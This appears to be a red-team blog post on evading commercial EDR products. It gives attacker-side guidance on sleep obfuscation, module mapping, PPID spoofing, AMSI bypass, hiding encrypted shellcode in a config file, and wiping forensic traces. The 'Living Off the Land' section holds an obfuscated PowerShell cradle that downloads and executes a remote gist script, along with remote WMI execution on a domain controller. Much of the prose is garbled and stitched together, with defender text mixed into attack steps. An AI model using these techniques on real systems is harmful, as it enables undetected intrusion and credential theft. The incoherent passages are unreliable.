



Practical EDR Evasion in 2024: A Reality Check Before CAPE Exam
Cutting through the marketing BS and talk about what actually works when it comes to evading modern EDR.
This blog isn't about some magical bypass, it's about understanding detection mechanisms, memory scanning, and why most "EDR bypasses" on GitHub are complete garbage.
As part of the Adversary Emulator team's at SpecterOps for ongoing engineer security, we emphasize the importance of leveraging Sysmon alongside traditional EDR tools to detect activities that standard EDRs often miss.
.\implant-c2.dllI'm writing this after dealing with : CrowdStrike, SentinelOne, Defender ATP, Carbon Black, and many more on multiple red team engagements in 2024 (With bonuses of HTB CAPE exam) scenario, bringin an exact 1 year times for this 2024 to 2025.

From HTB:
HTB Certified Active Directory Pentesting Expert F.K.A HTB CAPE candidates must perform advanced Active Directory penetration tests in realistic Active Directory (AD) environments, encompassing real-world Active Directory environments, demanding a full understanding of how Windows and the Active Directory environments work and assessing the candidate's ability to execute complex attacks without relying on multiple-choice questions.
If you're expecting some copy-paste shellcode loader that Bypasses all EDR, go come and check my Substack first.
Understanding Modern EDR
Before we talk evasion, you need to understand what you're up against. Modern EDR isn't just signature-based detection anymore:
- Start with Kernel callbacks : a Process creation, thread creation, image load notifications. PE driver named
[REDACTED].sys, and imitates a legitimate a driver. - Event Tracing for Windows or ETW telemetry : Event Tracing for Windows collecting everything, includes the design and implementation of detection logic for various TTPs.
- Memory scanning and Canary Threads : Both periodic and event-driven.
- Extra Man-power machine Behavioral analysis : LLM / ML models looking for suspicious patterns, doing recognition and Machine thingking analysis processes.
- Standard AMSI integration : Which stands for Antimalware scan interface / script and memory content inspection.
The vendors aren't st*pid. They know all the old tricks.
As adversaries who aim to stay unnoticed, we've mastered broader spectrum of evasion techniques that exploit design gaps, user-mode and kernel-mode hooking limitations, and even advanced OS security features like AMSI, and more.
What Actually Gets Detected
Here's what will get you Hack-backed! or caught immediately in 2024:
1. Publicly Available Shellcode Loaders
In a thinking-processes way of person who spends numerous hours and DAYS! on opens-source project such as GitHub or GitLab, and more.
Supposed I saw a pattern of script detection, every loader on GitHub that has more than 50 stars? Yeah, EDR vendors have already added it to their detection logic.
This includes:
- Syscall-based loaders
- Direct syscalls through Hell's Gate
- Unhooking user-mode hooks
- Module stomping techniques
- Thread hijackingThese techniques work, but you need to implement them differently than the public code everyone's using.
2. Common In-Memory Indicators
EDR memory scanners look for specific patterns. If your payload has these characteristics, you're getting flagged:
- RWX memory regions
- Unbacked memory regions without legitimate module
- PE headers in memory that don't match disk
- Suspicious API call chains
- Known shellcode patterns3. Behavioral Red Flags
Even if your loader is custom, these behaviors will trigger alerts:
- Process injection into system processes
- Credential dumping patterns

- Lateral movement using WMI or DCOM
- Suspicious parent-child process relationships
- Defects in rpcss when dealing with oxidMost common weak attack launches as example is abnormal API calls, which EDRs monitor sequences of system calls to identify malicious patterns. Deviations from expected, legitimate call sequences, especially rapid, non-human-paced operations, can be a red flag.
Techniques That Still Work
Alright, enough doom and gloom. Here's what actually worked for me on recent engagements:
Sleep Obfuscation
Term encompassing malware that waits for some time period to avoid detection. It could include extended sleeping, where malware will wait an extended time (10+ minutes) to start executing to evade shorter sandbox analysis.
It could also encompass logic bombs, malicious code that is set to execute on a specific trigger or at a scheduled time, which could be days, weeks, or months into the future.
Most EDRs do memory scanning during sleep periods. Instead of just sleeping, you need to either:
- Encrypt your payloads before sleeping and decrypt on wake.
- Use fiber-based execution to avoid creating suspicious threads. Some SOC emerging threats, enriched with real-time CTI and backed by advanced tools for threat detection and hunting.
- Implement custom timers that don't rely on standard
Sleep()calls.

Basic implementation concept (don't use this verbatim):
void ProtectedSleep(DWORD dwMilliseconds) {
XorEncrypt(payload, payload_size, key);
WaitForSingleObject(hTimer, dwMilliseconds);
XorEncrypt(payload, payload_size, key);
}Module Mapping Instead of Injection
Instead of injecting into existing processes which triggers alerts, map your own "legitimate" module. The trick is making it look benign:
- Choose a legitimate DLL that exists on system (like a game library), EDRs rely on tapping into specific Windows components that handle process management, memory allocation, and security.
Such asntdll.dllwhich a Serves as the translator between user-mode apps and the Windows kernel, handling low-level system calls likeNtCreateProcess,NtAllocateVirtualMemory,etc. - Map it into memory properly with correct headers, especially if it's frequent or connects to shady domains.
- Replace specific functions with your payload, which can also be escalated to Spoof your parent process ID
(PPID)or mutate command lines so the real origin is blurred.Some detection logic heavily relies on "If parent is X, check child's process name." Spoofing can trick these rules. - Ensure exports table looks correct.
This way, EDR sees a "normal" module load event, not suspicious injection, then provide comparative tables (techniques vs. vendors), timeline of emergence, and mitigations, with strategic recommendations for defenders to harden their endpoint security configurations.
Living Off the Land
Never get old. Use what's already there, but this is an example of "We needed to Escalate":
$cred = Get-Credential Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -enc [base64_payload]" -ComputerName dc02.master0.local -Credential $cred i`Ex ( nE`w-`ObJect Ne`T.WEBCl`Ient )."DowNlo`Ads`TRI`NG"( "ht"+"tps://gist.github.com/byt3n33dl3/693cc10b60b9abb646866e5a2aa80cca" )But be smart about it, encoding PowerShell isn't enough anymore. You need to:
- Use AMSI bypass techniques that actually work, is cosmetic, not evasive. Base64, compression, or string mangling only alters how content looks, not how it behaves. Modern EDR reconstructs the execution graph in memory and evaluates intent.
- It inspects script blocks, monitors runtime buffers, and correlates across processes. If your payload is ever fully materialized inside an
AMSI-visiblecontext, you've already lost control. - Obfuscate in ways that aren't signature-detected, great example from Blending beats hiding. The most effective obfuscation makes activity indistinguishable from legitimate administrative or application behavior, rather than trying to conceal obviously malicious intent.
- Avoid known command patterns. You know what I mean.
Real-World Example: Bypassing CrowdStrike
On a recent engagement, here's what worked against CrowdStrike Falcon:
Instead of using a traditional shellcode loader, I:
- Created a legitimate
C# applicationthat loads a config file. - The config file contained "data" that was actually encrypted shellcode.
- Used
.NETreflection to dynamically load and execute in memory. - Implemented custom sleep with memory encryption.
- Made sure all API calls looked like normal
.NETapplication behavior.
In easy way it's looked like a normal business application, not a hacking tool.
Video Demonstration
Here's a practical demonstration of these techniques in action:
From DEFCON 32:
Endpoint detection and response (EDR) software has gained significant market share due to its ability to examine system state for signs of malware and attacker activity well beyond what traditional anti-virus software is capable of detecting. This deep inspection capability of EDRs has led to an arms race with malware developers who want to evade EDRs while still achieving desired goals, such as code injection, lateral movement, and credential theft.
This monitoring and evasion occurs in the lowest levels of hardware and software, including call stack frames, exception handlers, system calls, and manipulation of native instructions. Given this reality, EDRs are limited in how much lower they can operate to maintain an advantage.
The success of EDR bypasses has led to their use in many high-profile attacks and by prolific ransomware groups.
In this talk, we discuss our research effort that led to the development of new memory forensics techniques for the detection of the bypasses that malware uses to evade EDRs. This includes bypass techniques, such as direct and indirect system calls, module overwriting, malicious exceptions handlers, and abuse of debug registers. Our developed capabilities were created as new plugins to the Volatility memory analysis framework, version 3, and will be released after the talk.
Detection Analysis
Let's break down what EDR actually saw in the above demo:
Event 1: Process Creation (benign.exe)
- Parent: explorer.exe (legitimate)
- Command line: Normal application startup
- Verdict: CLEAN
Event 2: File Read (config.dat)
- Application reads configuration
- Common behavior for applications
- Verdict: CLEAN
Event 3: Memory Allocation (VirtualAlloc)
- Size: 4096 bytes (small, normal)
- Protection: PAGE_READWRITE (not executable)
- Verdict: CLEAN
Event 4: Network Connection
- Destination: cdn.microsoft.com (whitelisted)
- Protocol: HTTPs
- Verdict: CLEANNotice how each individual action appears benign. That's the key.
Testing Your Evasion
Before using any technique on an engagement, test it with lil environment:
Set Up a Test Environment
Install EDR in a VM in this common options:
- Windows Defender ATP (included in Windows)
- CrowdStrike Falcon
- SentinelOneNow Test your payload or whatever binary executable.
.\implant.exe
# Then check for alerts in EDR consoleUse Multiple EDR Solutions
What works against Defender might fail against CrowdStrike. Test against at least 3 different solutions.
Common Mistakes to Avoid
Here's where most folks screw up:
1. Using Public Tools Unmodified
Which I didn't recommend for real-world Adversary Emulation scenario:
git clone https://github.com/popular-exploitcd popular-exploitcargo build --release./target/release/exploit.exe
This are the easiest suicide-attempt.
If it's on GitHub with hundreds of stars, EDR vendors have already analyzed it which refers to earlier point.
2. Not Cleaning Up
Your evasion worked, but you left indicators everywhere:
- Event logs showing suspicious activity, stands on the most fatal processes.
- Prefetch files.
- Shimcache entries.
- An obvious external applications.
- Network artifacts.
The blue team or SOC-ish will find you eventually if you don't clean up properly.
3. Getting Complacent
What worked last month might not work this month.
EDR vendors update their detection logic constantly. Stay current.
Resources and Further Reading
If you want to dive deeper into EDR internals and evasion:
- SharpPack which refers to
.NETtool for packing malicious assemblies - MDSec's lateral movement series
- SpecterOps token theft research and other pages
Conclusion
EDR evasion in 2024 isn't about finding a magic bypass. It's about:
- Understanding how detection works
- Making your malicious activity look legitimate
Thinking several moves ahead and understanding what the blue team or SOC-ish is seeing are one of the important key to make the best sells of you as an Adversaries.
Stop looking for silver bullets.
Start understanding the fundamentals.
Shout Outs
These researchers and their work have been invaluable: